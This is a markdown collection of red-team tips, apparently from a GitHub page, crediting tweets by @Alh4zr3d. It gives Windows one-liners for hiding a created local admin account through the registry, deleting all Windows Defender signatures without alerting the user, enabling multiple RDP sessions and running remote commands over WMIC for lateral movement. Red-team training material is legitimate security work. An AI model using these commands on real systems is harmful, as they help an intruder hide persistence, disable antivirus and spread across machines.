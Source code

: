 # Red Team Tips

_Learn from Red Teamers with a collection of Red Teaming Tips. These tips cover a range of tactics, tools, and methodologies to improve your red teaming abilities._

**Note:** _Nearly all tips are currently from [@Alh4zr3d](https://twitter.com/Alh4zr3d), he posts good Red Team Tips!_

### [🔙](#tool-list)Hiding the local admin account

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v alh4zr3d /d 0 /f
```

**Description:** _'Creating accounts is risky when evading blue, but when creating a local admin, use some cute sorcery in the registry to hide it.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1612913838999113728)

### [🔙](#tool-list)Cripple windows defender by deleting signatures

```bash
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

**Description:** _'A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1611005101262389250)

### [🔙](#tool-list)Enable multiple RDP sessions per user

```bash
reg add HKLM\System\CurrentControlSet\Control\TerminalServer /v fSingleSessionPerUser /d 0 /f
```

**Description:** _'Sometimes you want to log in to a host via RDP or similar, but your user has an active session. Enable multiple sessions per user.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1609954528425558016)

### [🔙](#tool-list)Sysinternals PsExec.exe local alternative

```bash
wmic.exe /node:10.1.1.1 /user:username /password:pass process call create cmd.exe /c " command "
```

**Description:** _'Are you tired of uploading Sysinternals PsExec.exe when doing lateral movement? Windows has a better alternative preinstalled. Try this instead.'_
